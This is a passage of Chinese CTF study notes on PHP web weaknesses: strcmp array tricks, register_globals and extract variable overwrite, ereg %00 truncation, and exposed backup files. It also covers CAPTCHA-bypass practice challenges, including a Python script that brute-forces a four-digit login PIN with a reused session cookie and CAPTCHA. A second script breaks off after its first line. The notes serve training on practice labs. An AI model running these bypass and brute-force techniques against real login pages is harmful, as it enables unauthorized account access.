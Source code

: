 ```
### 4. strcmp(array,string) ==

### 5. 变量覆盖：register\_globals的意思就是注册为全局变量，所以当On的时候，传递过来的值会被直接的注册为全局变量直接使用，而Off的时候，我们需要到特定的数组里去得到它。PHP4默认开启，PHP5以后默认关闭。

	还有就是extract那个函数，也可以存在变量覆盖http://www.w3school.com.cn/php/func\_array\_extract.asp

### 6. ereg函数漏洞：00截断
	%00

[http://www.shiyanbar.com/ctf/1805
](http://www.shiyanbar.com/ctf/1805)

### 7. 备份文件类型的
	
	.bak   ultroedit....  

	.xxxx.php.swp     vim  



### 8. 验证码类的

	[http://lab1.xseclab.com/vcode1\_bcfef7eacf7badc64aaf18844cdb1c46/index.php](http://lab1.xseclab.com/vcode1\_bcfef7eacf7badc64aaf18844cdb1c46/index.php)
	
	这个验证码的特点是，在一次会话中，下一次提交，上一次的验证码不会失效

	代码，具体要改cookie和验证码
	
	```
	import requests  
	  
	url = "http://lab1.xseclab.com/vcode1\_bcfef7eacf7badc64aaf18844cdb1c46/login.php"  
	req = requests.session()  
	header = {"Cookie":"PHPSESSID=9b8f8686269f5d70a44766e3c5f4dcdc"}  
	for pwd in xrange(1000,10000):  
	  
	    data={'username':'admin','pwd':pwd,'vcode':'c3pe'}  
	  
	    ret = req.post(url, data=data, headers=header)  
	    print ret.text  
	    if 'error' not in ret.text:  
	        print pwd  
	        break  
	```




[http://lab1.xseclab.com/vcode2\_a6e6bac0b47c8187b09deb20babc0e85/index.php](http://lab1.xseclab.com/vcode2\_a6e6bac0b47c8187b09deb20babc0e85/index.php)

	程序猿：“该死的黑客，我让你绕！我验证一次就让你的验证码失效，看你怎么绕！”

这一关的验证码，验证一次以后就失效了，但是再次提交的时候就不需要再考虑验证码是否正确的问题了，所以在脚本中只要保证验证码为''的就可以


```
import requests  
   